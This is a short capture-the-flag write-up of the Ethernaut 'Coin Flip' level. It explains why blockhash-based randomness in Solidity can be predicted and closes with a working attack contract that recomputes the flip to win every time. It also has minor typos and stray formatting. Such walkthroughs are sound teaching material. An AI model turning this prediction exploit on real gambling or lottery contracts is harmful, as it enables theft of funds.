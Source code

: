 # hEthernaut 03: Coin Flip - Insecure Randomness

Learn about random numbers in Solidity

## The Task Intro

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have contr``ol over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

## The Task Code

The Coinflip task is a smart contract that has a flip function. It retrieves the blockhash of the block before, casts it to uint256 and devides it by a static huge factor, so the number might be 1.

## The Solution

There is no randomness because another contract can make the same calculation and therefore predict the outcome and always win.

```mermaid

pragma solidity 0.8.17;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract coinFlipAttack {
    CoinFlip cf;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor (CoinFlip _cfa){
       cf = _cfa;
    }

    function attack()external{

            uint256 blockValue = uint256(blockhash(block.number -1));
            uint256 coinFlip = blockValue/FACTOR;

            bool result = coinFlip ==1 ? true: false;
            cf.flip(result);

    }

}
```
